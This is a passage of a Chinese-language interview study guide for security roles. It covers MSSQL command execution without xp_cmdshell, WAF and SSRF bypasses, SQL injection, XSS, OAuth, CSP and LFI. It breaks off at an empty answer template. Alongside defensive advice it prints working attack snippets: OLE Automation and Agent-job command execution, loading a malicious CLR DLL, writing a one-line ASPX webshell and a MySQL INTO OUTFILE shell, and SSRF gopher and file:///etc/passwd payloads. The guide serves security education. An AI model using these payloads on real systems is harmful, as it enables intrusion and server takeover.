> 2\.  发起受害者身份下的 CSRF 或 API 操作
> 3\.  探测内网系统、进行横向打点
> 4\.  诱导敏感操作或键盘监听
> 5\.  如果不能外联，还可以将数据写入日志或数据库，后续再人工取出 &#x20;
> 这些方式都能在内网环境中实现权限提升或信息获取。

## ✓mssql中，假设为sa权限，如何不通过`xp_cmdshell`执行系统命令 (★★)

***

### ✅ 标准答法结构（推荐背诵）：

> 在 MSSQL 中，即使`xp_cmdshell`被禁用，只要拥有`sa` 权限，依然有多种方式可以执行系统命令，包括：
>
> 1\.  **开启 OLE Automation Procedures**
> 2\.  **注册自定义 CLR 组件**
> 3\.  **使用 SQL Server Agent 执行 Job（作业）**
> 4\.  **使用 COM 对象（如 WScript.Shell）执行命令**
> 5\.  **向系统写入 WebShell / 上传文件配合执行**

***

***

### 1️⃣**启用 OLE 自动化（OLE Automation Procedures）**

> 使用 COM 组件执行命令

`-- 开启 OLE 自动化支持 EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'Ole Automation Procedures', 1; RECONFIGURE; -- 创建对象并执行命令 DECLARE @shell INT; EXEC sp_OACreate 'WScript.Shell', @shell OUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c whoami';`

✅ 成功条件：

- `Ole Automation Procedures` 被开启（默认关闭）
- 拥有`sa` 权限（可开启）

***

### 2️⃣**使用 SQL Server Agent 创建作业（Job）**

> 通过 SQL Server Agent 执行命令（如反弹 shell）

`EXEC msdb.dbo.sp_add_job @job_name = 'pocJob'; EXEC msdb.dbo.sp_add_jobstep   @job_name = 'pocJob',   @step_name = 'cmd',   @subsystem = 'CmdExec',   @command = 'powershell -c "whoami > C:\poc.txt"'; EXEC msdb.dbo.sp_add_jobserver @job_name = 'pocJob'; EXEC msdb.dbo.sp_start_job @job_name = 'pocJob';`

✅ 成功条件：

- SQL Server Agent 服务已启动
- 当前用户能操作`msdb.dbo.sp_add_job*` 系列存储过程

***

### 3️⃣**注入 CLR（.NET）组件，注册并执行外部命令**

> 可实现任意代码执行，甚至加载 shellcode

`-- 启用 CLR EXEC sp_configure 'clr enabled', 1; RECONFIGURE; -- 创建 Assembly（提前准备好 .dll 文件） CREATE ASSEMBLY myclr FROM 'C:\malicious.dll' WITH PERMISSION_SET = UNSAFE; -- 创建函数调用 DLL CREATE PROCEDURE exec_cmd @cmd NVARCHAR(4000) AS EXTERNAL NAME myclr.[Namespace.Class].method; -- 执行外部命令 EXEC exec_cmd 'whoami';`

✅ 成功条件：

- 能上传 DLL 或利用 UNC 路径加载
- 启用 CLR，并允许`UNSAFE` 权限

***

### 4️⃣**写 WebShell 或 BAT 文件，结合计划任务或远程访问利用**

> 示例：将一句话木马写入 IIS 目录

`EXEC sp_OACreate 'Scripting.FileSystemObject', @obj OUT; EXEC sp_OAMethod @obj, 'CreateTextFile', @file OUT, 'C:\inetpub\wwwroot\shell.aspx', 1; EXEC sp_OAMethod @file, 'WriteLine', NULL, '<%eval request("cmd")%>';`

***

🧩 面试回答加分总结：

> 实战中，如果`xp_cmdshell`被禁用，我会优先尝试开启**OLE Automation**或使用**SQL Server Agent Job** 执行命令；如果这些都被管控，还可以注册 CLR 组件或写文件实现后门植入。

***

✅ 面试答题模板（60 秒）

> 如果拿到`sa`权限，即使`xp_cmdshell` 被禁用，我可以：
> 1\.  使用 OLE Automation 调用`WScript.Shell` 执行系统命令；
> 2\.  使用 SQL Server Agent 创建作业执行命令；
> 3\.  注册 CLR 组件，执行外部命令或 DLL；
> 4\.  结合文件写入功能，将命令写入 bat 文件或 WebShell；
> 都可以实现系统命令执行或持久化控制。

***

## ✓假设某网站存在waf，不考虑正面绕过的前提下，应该如何绕过(分情况讨论 云waf/物理waf) (★)

> 在不考虑正面绕过（如编码、双写、大小写混淆等）情况下，WAF 仍有多种方式可以被“旁路”或“避开”，根据部署类型可分为：
> \-   **云WAF**：通常基于 DNS 解析、在边缘节点拦截
> \-   **物理WAF（硬件或本地接入）**：部署在网关或反向代理前后
> 主要可通过**旁路、真实 IP 探测、架构缺陷利用、逻辑缺陷** 等方式实现绕过。

***

### ① 云WAF 绕过方式

> 云WAF 通常基于 DNS 接管 + CDN，真正服务器是隐藏的，WAF 拦截的是“域名流量”。

### ✅ 1.1 获取真实 IP，绕过 WAF 访问源站：

- **旁站探测**：使用`FOFA`/`ZoomEye`/`Shodan` 查询同IP下的其他站点
- **历史DNS记录**：使用`SecurityTrails`/`ViewDNS` 查历史解析记录
- **外链资源泄露**：页面引用真实 IP 的 JS、图片等
- **Email/SMTP 泄露**：邮件头可能暴露真实IP
- **C段扫描+端口识别**：匹配真实 Web 服务指纹

> 拿到真实 IP 后，直接访问 IP:PORT 即可绕过 WAF。

***

### ✅ 1.2 利用配置漏洞：

- **WAF 忽略 Host 头校验**：直接`curl http://real-ip -H "Host: target.com"` 绕过云WAF
- **DNS 缓存污染 / 本地 hosts**：将域名解析指向真实 IP

***

### ② 本地/物理 WAF 绕过方式

> 本地 WAF 一般部署在应用前端或与 Web 服务绑定，流量本地走，不依赖 DNS。

### ✅ 2.1 利用非 Web 服务旁路（内网访问）

- **探测其他端口是否未受防护**：如 8080/8443 等直连 Web 服务端口
- **HTTP/HTTPS混用错误**：有些 WAF 只过滤 443，忽略 80 或反之
- **分离式服务绕过**：WAF仅保护Web，但API/文件上传/后台接口不经WAF

***

### ✅ 2.2 应用层绕过 via CDN / proxy 后门

- **静态 CDN 缓存**：利用 CDN 缓存页面中遗留的 admin 接口
- **代理白名单绕过**：部分 WAF 仅对公网流量启用，内网源头 IP 或跳板可能绕过

***

### &#x20;③ 通用旁路策略（云和物理均适用）

### 🔹 利用业务逻辑绕过

- WAF 仅拦截特定路径，例如`/login`，但忽略`/api/login`
- 某些参数名或旧接口未加 WAF 拦截策略

### 🔹 利用上传 / 中转接口

- 将 payload 包裹进上传文件 / 请求中转接口，让后端处理

### 🔹 利用二级/测试子域旁路

- 一些子域未接入 WAF，可用来打靶或做跳板

***

🧠 加分补充（答题亮点）

> 实战中，我会优先判断目标是云WAF还是物理WAF，若是云WAF，会去找源站 IP 并尝试旁路访问。如果是物理WAF，会通过探测是否有未防护的服务端口、测试接口或非典型路径，来寻找 WAF 绕过点

## ✓介绍一下自认为有趣的挖洞经历（或CTF经历）(★★★)

开放式回答

## ✓CSRF的成因及防御措施（不用token如何解决) (★)

***

### ✅ 一、CSRF 的成因（跨站请求伪造）

> 攻击者诱导用户浏览恶意页面，自动以用户身份向目标网站发起请求，达到“伪造操作”的目的。

- **前提条件：**
  - 用户登录了目标网站，浏览器保存了 Cookie
  - 网站对请求的身份验证仅依赖 Cookie
  - 请求无额外校验机制（如 token、验证码等）

***

### 🔁 举个例子：

`<!-- 用户访问该恶意页面时自动发请求 --> `

只要用户登录过`bank.com`，浏览器会自动带上 Cookie，实现伪造转账请求。

***

### ✅ 二、CSRF 防御措施（不用 token 的情况）

除了常见的**Token 校验机制（如 CSRF Token）**，以下方式也能防御 CSRF：

***

### ✅ 1.**Referer / Origin 验证**

- 服务端检查请求头中的`Referer`或`Origin` 是否为本站

`# 伪代码逻辑 if not request.headers['Referer'].startswith("https://yourdomain.com"):     return 403`

- ⚠️ 注意：Referer 容易被浏览器禁掉（跨域/隐私），推荐使用`Origin` 更可靠

***

### ✅ 2.**SameSite Cookie 属性**

> 设置 Cookie 为 SameSite，可以限制浏览器在“第三方页面”中是否发送 Cookie

- **SameSite=Strict**：只有同源页面会带 Cookie（强烈限制，但可能影响功能）
- **SameSite=Lax**：允许 GET 表单跳转等低风险请求
- **SameSite=None; Secure**：允许跨站携带 Cookie（⚠️ 易被利用）

`Set-Cookie: session=abc123; SameSite=Strict; Secure; HttpOnly`

✅ 推荐设置为`SameSite=Lax`或`Strict`，结合安全场景调整

***

### ✅ 3.**使用验证码 / 二次确认**

- 转账等敏感操作，强制用户输入验证码 / 短信验证
- 即使请求被伪造，无法绕过交互验证

***

### ✅ 4.**请求方式限制**

- 将敏感操作限制为`POST/PUT/DELETE`，不接受 GET 提交
- 浏览器默认不允许跨站发复杂 POST 请求（不带自定义头），可以起到部分防护作用

***

### ✅ 5.**AJAX + 自定义 Header 校验**

- 利用浏览器 SOP 限制，要求必须带上特定自定义 Header

`xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest")`

服务端校验`X-Requested-With`是`XMLHttpRequest`，可识别是否为真实页面请求。

***

### ✅ 面试答题模板（推荐）：

> CSRF 的根本原因是：浏览器会自动携带用户的 Cookie，但网站没有对请求的来源或真实性进行验证。
>
> 除了常见的 token 防御，还可以：
>
> 1\.  校验`Origin`/`Referer` 请求头是否来自本站；
> 2\.  设置 Cookie 的 SameSite 属性为 Strict 或 Lax，限制第三方携带；
> 3\.  要求敏感操作必须验证码或二次确认；
> 4\.  限制使用 GET 请求发起敏感操作；
> 5\.  使用自定义 Header 配合 AJAX 请求识别真实访问来源。

***

### ✅ 加分技巧：

- 推荐使用：`Origin 校验 + SameSite Cookie` 的组合防护方案，兼顾实用和兼容性。
- 某些现代框架如`Django`,`Spring Security` 等也内置了 CSRF 防护机制。

***

## ✓SSRF如何探测非HTTP协议(★)

### ✅ SSRF 背景回顾

- SSRF 利用通常针对 HTTP/HTTPS 协议，但内网中常见的服务协议还有：
  - `ftp://`
  - `file://`
  - `dict://`
  - `gopher://`
  - `smtp://`
  - `tcp://`/`udp://`
  - 数据库协议（如`redis://`,`memcached://`）
- 探测非 HTTP 协议可帮助挖掘更多内网服务和潜在攻击面。

***

### ✅ 探测非 HTTP 协议的常用思路

***

### 1️⃣**尝试访问不同协议的特殊 URL**

- 向 SSRF 参数传入非 HTTP 的协议前缀，比如：

`ftp://127.0.0.1/ file:///etc/passwd gopher://127.0.0.1:6379/_PING dict://127.0.0.1/ smtp://127.0.0.1/ redis://127.0.0.1:6379/`

- 观察响应差异或异常，判断服务是否可访问

***

### 2️⃣**结合模糊和监控技术**

- 如果 SSRF 请求可回显响应，通过响应内容确认协议支持
- 若无回显，可借助内网协议的特征，如触发内网日志、发送请求包，结合旁路监控：
  - 监控目标服务日志是否有访问记录
  - 监控网络流量（端口连接尝试）

***

### 3️⃣**利用 Gopher 协议模拟任意 TCP 协议**

- `gopher://` 允许构造任意 TCP 请求包，适合发送自定义协议请求

示例（对 Redis 的 PING 命令）：

`gopher://127.0.0.1:6379/_*2%0D%0A%24%04%0D%0APING%0D%0A`

- 通过响应判断 Redis 服务是否存在

***

### 4️⃣**结合已知端口的协议猜测**

- 根据端口号（如 21=FTP, 25=SMTP, 6379=Redis 等）尝试对应协议访问
- 对可疑端口尝试多种协议前缀，分析响应异常和内容

***

### 5️⃣**检查 SSRF 参数对协议支持限制**

- 有些 SSRF 过滤只允许 HTTP(S)，绕过可以尝试大小写变形、空格插入、Unicode编码等方式

***

### ✅ 面试答题模板

> SSRF 探测非 HTTP 协议时，我会针对常见协议（FTP、File、Gopher、Redis、SMTP 等）传入对应协议头的 URL，观察响应或异常。
> 对于无响应的情况，我会配合内网日志监控或流量抓包确认是否有访问请求。
> 特别是`gopher://` 协议，可以构造任意 TCP 请求，模拟多种协议命令，非常适合探测和利用非 HTTP 服务。

## ✓简述一下SSRF的绕过手法(★★)

### 1.**协议混淆绕过**

- 利用协议别名或变形绕过白名单 &#x20;

  例：`http://127.0.0.1`→`hTtP://127.0.0.1`（大小写混合） &#x20;

  或使用`http://127.1`（十进制、八进制、十六进制 IP） &#x20;

  `file://`,`gopher://` 等非 HTTP 协议绕过

***

### 2.**IP 地址绕过**

- IP 表示形式多样化：
  - 十进制（`2130706433`）
  - 八进制（`0177.0.0.1`）
  - 十六进制（`0x7f.0x0.0x0.0x1`）
  - 混合表示（`127.0.1`）
  - IPv6 表示法（`::1`）

***

### 3.**DNS 解析绕过**

- 利用 DNS 重绑定
- 域名带端口或路径混淆（如`127.0.0.1.nip.io`）
- 利用内部 DNS 域名（`localhost`、`loopback`、`internal`）

***

### 4.**编码绕过**

- URL 编码（百分号编码`%2e`、`%2f`）
- Unicode编码（`\u002e` 替代点）
- 双重编码
- 分割符混淆（`/./`、`//`）

***

### 5.**请求方法或头部绕过**

- 利用 HTTP 请求头伪造（`X-Forwarded-For`）
- 改变请求方法（`POST`替代`GET`）
- 利用 HTTP 请求分块传输绕过过滤

***

### 6.**使用中间服务绕过**

- 利用 SSRF 支持访问外部服务，通过跳板转发访问内网
- 通过开放的代理、反向代理实现跳转

***

### 面试答题模板

> SSRF 绕过主要有以下方法：协议混淆、IP 地址多种写法、DNS 解析绕过、各种编码（URL、Unicode）绕过、请求头和方法伪造，以及通过中间代理或跳板服务转发请求等。不同环境针对过滤规则灵活组合使用。

## ✓简述一下SSRF中DNSRebind的绕过原理及修复方法(★)

### 1️⃣ DNS Rebind 绕过原理

- **DNS Rebind** 是一种利用 DNS 解析过程的攻击技巧。
- 攻击者控制的域名（如`attacker.com`）首先解析为**公网 IP**，绕过 SSRF 过滤。
- 当目标服务器对该域名再次发起 DNS 查询时，DNS 服务器返回**内网 IP（如 127.0.0.1 或 192.168.x.x）**。
- 这样，服务器实际上访问了内网地址，但因为访问的是合法域名，绕过了基于域名白名单或简单IP过滤。
- 该攻击利用了浏览器或服务器端对 DNS 解析结果缓存和更新的机制。

***

### 2️⃣ 修复方法

#### 🔹 2.1 严格 IP 地址校验

- 对解析出的 IP 地址进行**白名单/黑名单校验**，禁止访问内网或保留地址段
- 禁止访问`127.0.0.1`、`10.x.x.x`、`192.168.x.x`、`172.16.x.x` 等私网段

#### 🔹 2.2 缓存 DNS 解析结果，避免频繁解析

- 限制 DNS 解析频率，避免攻击者动态切换解析结果

#### 🔹 2.3 禁止解析返回内网 IP 的域名访问

- 在应用层对域名解析结果做二次确认，禁止内网 IP 访问

#### 🔹 2.4 使用白名单代替黑名单

- 只允许访问可信任的域名或 IP 范围，避免泛泛过滤失效

#### 🔹 2.5 更新依赖库和框架

- 使用支持防止 DNS Rebind 的 HTTP 客户端库

#### 🔹 2.6 结合网络层防护

- 防火墙层面禁止服务器访问内部敏感 IP 段

***

### ✅ 面试答题模板

> DNS Rebind 绕过利用了域名先解析为公网IP，绕过过滤，后续再次解析变为内网IP，导致服务器访问到内网服务。 &#x20;
>
> 修复上建议对 DNS 解析结果做严格校验，禁止访问内网保留 IP 段；限制 DNS 解析频率；使用白名单机制；并结合防火墙限制访问范围。

## ✓介绍 SQL 注入漏洞成因，如何防范？注入方式有哪些？除了拖取数据库数据，利用方式还有哪些？(★★)

### 1️⃣ SQL 注入漏洞成因

- 应用程序对用户输入数据**未做有效过滤和转义**，直接拼接到 SQL 语句中执行。
- 导致攻击者可以构造恶意 SQL 语句，改变原有查询逻辑。
- 常见原因：
  - 不安全的字符串拼接
  - 缺少参数化查询（预编译语句）
  - 错误的输入验证
  - 误用动态构造 SQL 语句的接口

***

### 2️⃣ 如何防范 SQL 注入

- **使用参数化查询（PreparedStatement、ORM）**，避免直接拼接 SQL。
- 使用安全的数据库访问库和 API。
- 对用户输入进行严格校验和白名单过滤，拒绝非法字符。
- 采用最小权限原则，数据库账号只赋予必要权限。
- 启用数据库防火墙、WAF 监控和拦截异常 SQL。
- 对错误信息屏蔽详细数据库错误，防止信息泄露。

***

### 3️⃣ 注入方式有哪些

- **经典注入（In-band）**
  - **错误基注入**：利用数据库错误信息获取数据
  - **联合查询注入（UNION-based）**：通过 UNION 关键字合并查询结果
  - **布尔盲注**：通过真/假条件判断返回结果判断数据
  - **时间盲注**：通过 SQL 语句延时判断返回结果进行数据推断
- **盲注（Blind SQL Injection）**
  - 依据页面响应变化或时间延迟推断数据
- **基于存储过程注入**
- **基于二进制/批量语句注入**

***

### 4️⃣ 除了拖取数据库数据，利用方式还有哪些？

- **权限提升** &#x20;

  利用注入执行系统命令（如 MSSQL xp\_cmdshell、MySQL sys\_exec）
- **数据库写入操作** &#x20;

  写入 WebShell、篡改数据、破坏数据完整性
- **绕过认证** &#x20;

  利用注入绕过登录验证，提升权限
- **持久化 XSS / 逻辑漏洞利用** &#x20;

  通过注入篡改数据实现跨站攻击
- **探测和枚举数据库结构** &#x20;

  发现表名、字段名、用户权限信息，为后续攻击做准备
- **横向移动** &#x20;

  结合其他漏洞，扩展攻击面

***

### ✅ 面试答题模板

> SQL 注入漏洞主要因应用未对用户输入做有效过滤或参数化，导致攻击者构造恶意 SQL 改变数据库查询。 &#x20;
> 防范上应使用参数化查询、严格输入校验、最小权限原则以及开启安全防护。 &#x20;
> 注入方式包括错误基注入、联合查询注入、布尔盲注和时间盲注等。 &#x20;
>
> 除了数据泄露，注入还可用于权限提升、写入 WebShell、绕过认证、数据篡改及探测数据库结构。

## ✓如何通过sql注入写shell,写shell的前提条件是什么?(★★)

### 1️⃣ 写 Shell 的原理

- 利用 SQL 注入漏洞，将 WebShell 代码写入 Web 服务器的可访问目录（如网站根目录或上传目录）。
- 这样攻击者即可通过 WebShell 远程控制服务器，实现命令执行等操作。

***

### 2️⃣ 写 Shell 的常见方法

- **利用数据库的文件写入功能**
  - MySQL：`SELECT "<?php ... ?>" INTO OUTFILE '/var/www/html/shell.php'`
  - MSSQL：使用`xp_cmdshell`调用`echo`写入文件或使用`bcp` 工具导出文件
  - Oracle：利用`UTL_FILE` 包写文件（复杂）
- **利用数据库执行系统命令写文件**
  - MSSQL 通过`xp_cmdshell` 执行命令写入 shell 文件
  - PostgreSQL 通过`COPY` 指令写文件
- **利用数据库函数写入数据表，再配合包含文件功能读取执行**

***

### 3️⃣ 写 Shell 的前提条件

- **拥有数据库写文件权限**（如 MySQL 的`FILE`权限、MSSQL 的`xp_cmdshell` 权限）
- **数据库服务器和 Web 服务器文件目录权限关联**，数据库进程用户对 Web 根目录有写权限
- **能够在注入点执行写文件语句**
- **Web 服务器支持并能执行写入的脚本语言（PHP/ASP/JSP等）**

***

### 4️⃣ 注意事项

- 目录路径需准确，写入文件必须在 Web 可访问路径下
- WebShell 内容需符合服务器支持的脚本语言语法
- 服务器安全策略（如防火墙、权限隔离）可能限制写文件或执行命令

***

✅ 面试答题模板

> 通过 SQL 注入写 Shell，核心是将恶意 WebShell 代码写入 Web 服务器的可访问目录。常用方法是利用数据库的文件写入功能，如 MySQL 的`SELECT ... INTO OUTFILE`，或 MSSQL 的`xp_cmdshell`执行系统命令写文件。
>
> 前提条件包括数据库用户必须拥有写文件权限，数据库进程需对 Web 根目录有写权限，且 Web 服务器支持并执行相应脚本。没有这些条件，写 Shell 无法成功。

## ✓介绍一下XSS漏洞的种类，dom型XSS和反射XSS的区别是什么?(★★)

### 1️⃣ XSS 漏洞主要种类

- **反射型（Reflected XSS）** &#x20;

  通过 HTTP 请求参数直接反射到页面，无持久化，用户点击恶意链接即触发。
- **存储型（Stored XSS / Persistent XSS）** &#x20;

  恶意代码存储在服务器（如数据库、留言板、评论等），所有访问该内容的用户都会触发。
- **DOM 型（DOM-based XSS）** &#x20;

  攻击代码不经过服务器处理，完全在浏览器端通过修改 DOM 触发，利用客户端脚本处理不当导致。

***

### 2️⃣ DOM 型 XSS 和反射型 XSS 的区别

| 特点        | 反射型 XSS                  | DOM 型 XSS                                      |
| --------- | ------------------------ | ---------------------------------------------- |
| **执行位置**​ | 服务器端返回页面时插入恶意代码          | 完全在浏览器端 JavaScript 操作 DOM                      |
| **触发方式**​ | 受害者点击恶意链接，服务器返回包含恶意脚本的响应 | 受害者访问含恶意 URL，浏览器端脚本解析 URL 并注入                  |
| **持久化**​  | 非持久，恶意代码不存储在服务器          | 非持久，存在客户端环境                                    |
| **典型场景**​ | 服务器端动态生成页面时未过滤输入         | JavaScript 从 URL、hash、localStorage 读取数据并插入 DOM |
| **防御重点**​ | 服务器端输入输出过滤、编码            | 客户端代码安全编码，避免直接操作不可信数据                          |

***

### ✅ 面试答题模板

> XSS 主要有反射型、存储型和 DOM 型。 &#x20;
>
> 反射型 XSS 是恶意代码通过 HTTP 请求参数反射到服务器响应中，用户点击链接即触发；而 DOM 型 XSS 发生在浏览器端，攻击代码通过客户端脚本修改 DOM，完全不经过服务器。两者区别在于执行位置和触发机制，反射型依赖服务器返回数据，DOM 型则依赖浏览器端脚本处理不当。

## ✓如何防范 XSS 漏洞，在前端如何做，在后端如何做，哪里更好，为什么？(★★)

### 1️⃣ 后端防范措施

- **输入过滤与校验** &#x20;

  对用户输入严格校验，过滤掉危险字符（如`<`,`>`,`'`,`"` 等），使用白名单策略。
- **输出编码（Output Encoding）** &#x20;

  在输出到 HTML、JS、CSS、URL 等上下文时进行正确编码，避免直接插入未转义内容。
- **使用安全模板引擎** &#x20;

  采用自动转义功能的模板引擎，防止注入恶意脚本。
- **设置安全 HTTP 响应头** &#x20;

  如`Content-Security-Policy`（CSP）、`X-XSS-Protection`。
- **禁用危险功能** &#x20;

  禁用或限制`eval()`、`innerHTML` 等动态执行代码的 API。

***

### 2️⃣ 前端防范措施

- **对用户输入做限制** &#x20;

  对输入框、富文本编辑器的内容进行严格限制和清洗。
- **安全使用 DOM 操作** &#x20;

  避免使用`innerHTML`直接插入用户输入，推荐使用`textContent` 或安全库。
- **内容安全策略（CSP）** &#x20;

  通过浏览器策略限制脚本来源和执行。
- **使用安全框架和库** &#x20;

  利用 React、Vue 等框架自带的自动转义机制。

***

### 3️⃣ 哪个更好，为什么？

| 方面   | 后端防御                    | 前端防御          | 评价          |
| ---- | ----------------------- | ------------- | ----------- |
| 安全性  | \*\*最关键\*\*，可信边界，防御底层漏洞 | 辅助防御，防止错误展示   | 后端防御为主，前端为辅 |
| 控制权  | 完全掌控输入输出，强制执行规则         | 依赖浏览器行为，易被绕过  | 后端控制更稳定可靠   |
| 用户体验 | 不影响交互                   | 提升用户体验，防止恶意输入 | 前后端结合最佳     |
| 容错性  | 不能完全信任客户端输入             | 前端验证减少无效请求    | 双重验证提高系统健壮性 |

***

### ✅ 面试答题模板

> XSS 防御应从前后端共同发力。后端防御是关键，主要靠输入校验和输出编码，保证所有输出内容都安全；同时设置 CSP 等响应头强化防护。前端防御则是辅助，限制用户输入，避免不安全的 DOM 操作，提升用户体验。总体来说，后端防御更为重要且可靠，因为客户端可被绕过，后端是安全的最后一道防线。最佳实践是前后端协同防护。

## ✓讲述一下找回密码可能涉及的逻辑漏洞(★)

### 常见找回密码逻辑漏洞

1. **缺乏身份验证或认证绕过**
   - 找回密码环节未严格验证用户身份（如手机、邮箱验证码未校验或可绕过），导致任意账号重置。
2. **验证码暴力破解**
   - 验证码长度太短、缺乏复杂度或无频率限制，攻击者可暴力猜测验证码。
3. **令牌（Token）管理不当**
   - 找回密码用的重置链接或令牌未设置有效期，或未绑定用户，导致令牌泄露可长期使用。
4. **信息泄露导致账号枚举**
   - 找回密码提示是否存在该用户，方便攻击者批量枚举有效账号。
5. **缺少操作频率限制**
   - 无短信/邮件发送频率限制，导致验证码轰炸或骚扰。
6. **未加密传输或存储敏感信息**
   - 找回密码时敏感数据（验证码、令牌）明文传输或存储，易被截获。
7. **重置链接未绑定来源IP或设备**
   - 令牌可在任意设备和IP使用，风险加大。

***

### 额外补充

- **密码复杂度未强制**，重置后密码过于简单导致安全风险。

## ✓假设你是甲方的一名安全工程师，应该如何降低逻辑漏洞的出现率?(★★)

### 1️⃣ 制度与流程层面

- **安全需求评审** &#x20;

  在需求设计阶段就介入，明确安全需求和边界，识别潜在逻辑风险。
- **安全设计规范** &#x20;

  制定并推广安全开发规范，覆盖认证、权限、会话管理等关键环节。
- **代码评审与安全测试** &#x20;

  强制代码走安全评审流程，重点审查逻辑分支、权限校验等部分。 &#x20;

  定期开展安全测试，结合手工和自动化逻辑漏洞扫描。
- **业务安全培训** &#x20;

  定期对开发、测试、产品团队进行安全意识与逻辑漏洞培训。
- **跨部门协作机制** &#x20;

  促进安全、开发、产品紧密合作，形成发现并修复逻辑漏洞的闭环。

***

### 2️⃣ 技术与工具层面

- **引入安全框架和库** &#x20;

  使用成熟安全组件，避免自研易出错的逻辑。
- **自动化安全扫描与代码分析** &#x20;

  使用静态代码分析工具和动态测试工具，及早发现逻辑缺陷。
- **权限控制与访问管理** &#x20;

  采用细粒度权限控制机制，设计完善的角色和资源访问模型。
- **监控与审计** &#x20;

  对关键业务操作建立审计日志，及时发现异常行为。

***

### 3️⃣ 持续改进

- **漏洞反馈与复盘机制** &#x20;

  对已发现的逻辑漏洞进行分析总结，持续优化开发和测试流程。
- **引入威胁建模** &#x20;

  评估业务流程中的潜在威胁点，提前设计防护措施。

***

### ✅ 面试答题模板

> 降低逻辑漏洞的出现，需要结合制度、流程和技术手段。 &#x20;
> 在制度层面，应强化安全需求评审、安全设计规范和安全培训，推动跨部门协作。 &#x20;
> 在技术层面，引入安全框架、自动化检测工具，完善权限控制和日志审计。 &#x20;
>
> 同时建立漏洞复盘和威胁建模机制，实现持续改进，保障业务安全。

## ✓oauth认证过程中可能会出现什么问题，导致什么样的漏洞?(★)

### 1️⃣ 常见问题及导致的漏洞

| 问题                     | 可能导致的漏洞/风险         | 说明                     |
| ---------------------- | ------------------ | ---------------------- |
| **重定向 URI 未严格校验**​     | 授权码或 Token 劫持、钓鱼攻击 | 攻击者诱导授权流程跳转到恶意网站窃取凭证   |
| **状态参数（state）未使用或校验**​ | CSRF 攻击            | 恶意请求伪造授权流程，导致授权码泄露     |
| **Token 缺乏有效生命周期管理**​  | Token 被长时间滥用       | 失效策略不合理，导致访问凭证长期有效被盗用  |
| **Token 泄露或存储不安全**​    | 凭证被盗用导致非法访问        | Token 明文存储或传输，容易被抓包或窃取 |
| **使用不安全的授权模式**​        | 漏洞利用风险             | 如隐式授权模式容易导致 Token 泄露   |
| **Scope 权限设计不合理**​     | 权限过大，导致越权访问        | 应用申请过多权限，导致风险面扩大       |
| **缺少 Token 绑定机制**​     | 令牌重放攻击             | 同一 Token 可被不同客户端或设备滥用  |

***

### 2️⃣ 具体漏洞举例

- **授权码劫持攻击**：攻击者通过伪造请求获取用户授权码，再用授权码换取访问 Token。
- **CSRF 攻击**：缺少`state` 参数导致攻击者伪造请求进行授权。
- **Token 泄露导致的资源滥用**：Token 在传输或存储中被截获，攻击者访问用户资源。

***

### ✅ 面试答题模板

> OAuth 认证过程中常见的问题包括重定向 URI 校验不严、缺少或未校验状态参数`state`、Token 生命周期和存储不安全等。
> 这些问题可能导致授权码劫持、CSRF 攻击、Token 泄露和滥用等漏洞。
> 因此，应严格校验重定向地址，使用并验证`state` 参数，合理管理 Token 生命周期并安全存储，设计最小权限 Scope。

## ✓CSP是什么应该如何使用及配置，有哪些绕过CSP的方式(★★)

### 1️⃣ CSP（Content Security Policy）是什么？

- CSP 是一种浏览器安全机制，通过定义允许加载和执行的资源来源，防止跨站脚本（XSS）和数据注入攻击。
- 它是通过 HTTP 头或`<meta>` 标签发布的策略，限制脚本、样式、图片、字体、框架等资源加载。

***

### 2️⃣ 如何使用及配置 CSP？

- **使用 HTTP 响应头配置**（推荐）：

`Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com; object-src 'none'; style-src 'self' 'unsafe-inline';`

- **常用指令**：
  - `default-src`：默认资源来源
  - `script-src`：允许执行的脚本来源
  - `style-src`：样式来源
  - `img-src`：图片来源
  - `object-src`：插件资源来源（如 Flash）
  - `connect-src`：XHR、WebSocket 的允许域
  - `frame-ancestors`：允许嵌入的父页面来源
- **配置原则**：
  - 尽可能限制资源来源，使用`'self'`、白名单域
  - 避免使用`'unsafe-inline'`和`'unsafe-eval'`
  - 使用 Nonce 或 Hash 来允许特定内联脚本
  - 定期审计 CSP 报告，调整策略

***

### 3️⃣ 常见的 CSP 绕过方式

- **利用允许的外部脚本** &#x20;

  通过加载信任的第三方脚本的漏洞或信任链，执行恶意代码。
- **利用允许的内联脚本** &#x20;

  若 CSP 允许`'unsafe-inline'`，可注入内联脚本。
- **DOM 型 XSS 绕过** &#x20;

  利用客户端 DOM 操作执行恶意代码，绕过 CSP 检测。
- **利用 JSONP 或第三方回调漏洞** &#x20;

  注入恶意回调函数代码。
- **Nonce 或 Hash 泄露** &#x20;

  泄露或猜测正确的 nonce/hash，绕过限制。
- **绕过 frame-ancestors 限制** &#x20;

  利用 Clickjacking 或父页面控制实现绕过。

***

### ✅ 面试答题模板

> CSP 是浏览器的一种安全策略，通过限制资源加载来源来防止 XSS 等攻击。
> 配置时应通过 HTTP 头部严格限定脚本、样式、图片等资源的来源，避免使用`'unsafe-inline'`，推荐使用 nonce 或 hash。
>
> 常见绕过方式包括利用信任的外部脚本漏洞、允许内联脚本、DOM XSS、JSONP 漏洞及 nonce 泄露等。合理配置和监控 CSP 是防御的关键。

## ✓已知某网站存在LFI(本地文件包含)，但是无法上传任何文件，针对该情况有哪些利用方式?(★★)

### 1️⃣ 利用已有文件写入（日志文件写入）

- **访问可写的日志文件**，如 Web 服务器访问日志、错误日志、应用日志等。
- 通过构造带有恶意 PHP 代码的 User-Agent、Referer 或 Cookie 等 HTTP 头，将代码写入日志。
- 再通过 LFI 包含该日志文件，实现代码执行。

***

### 2️⃣ 利用 PHP 会话文件（Session 文件）

- 如果网站使用 PHP，会话数据默认存储在服务器文件系统（如`/tmp/sess_*`）。
- 通过注入恶意代码到会话变量中，利用 LFI 包含对应的会话文件触发执行。

***

### 3️⃣ 利用配置文件或备份文件

- 检查服务器上是否存在包含敏感信息或代码的配置文件（如`.env`、`config.php`、备份文件`*.bak`、`*.old`）。
- 利用 LFI 读取敏感信息或获取可执行代码片段。

***

### 4️⃣ 利用 PHP 输入流

- 利用 PHP 特殊文件`php://input`，可通过发送 POST 请求的原始数据注入恶意代码。
- 通过 LFI 包含`php://input`，触发代码执行。

***

### 5️⃣ 利用其他特殊文件

- `php://filter` 进行编码转换读取源码。
- `data://` 协议直接包含数据（但部分环境禁用）。

***

### ✅ 面试答题模板

